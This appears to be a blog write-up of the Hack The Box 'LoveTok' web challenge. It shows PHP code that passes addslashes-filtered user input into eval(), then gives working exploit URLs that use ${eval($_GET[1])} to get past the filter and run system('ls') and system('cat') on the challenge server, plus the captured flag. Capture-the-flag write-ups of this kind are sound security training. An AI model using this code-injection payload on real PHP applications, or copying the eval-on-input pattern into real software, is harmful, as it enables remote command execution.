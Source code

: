 ```yaml
---
layout: single
title: LoveTok [Web] - Hack The Box
excerpt: "ECSC Prep"
date: 2021-12-21
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Web Challenge
tags:  
  - Using complex variables bypass addlashes function
---
```


### Enumeration application
### Vulnerable Code
```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
// The getTime() method is called upon passing the ‘format’ variable to the script, like this: 
// http://159.65.88.143:30406/?format=INPUT
``` 
<br>
The challenge was, that when putting something to go through the $this->format property it actually gets filtered through addslashes(). 


As the 1 variable is actually self-defined and goes through eval, its result  is parsed and referenced through the php eval function on the challenge source code and does not actually go through the addslashes() function, at least not in a direct way. So we could use quotes in our self-referenced variable and the following way: 
### Exploit 
`http://159.65.88.143:30406/?format=${eval($_GET[1])}&1=system(%27ls%20../%27);` <br>
`http://159.65.88.143:30406/?format=${eval($_GET[1])}&1=system(%27cat%20../flagA44jO%27);`<br> <br>

Flag => HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng} 

Refer => [Using complex variables bypass addlashes function](https://www.programmersought.com/article/30723400042/)

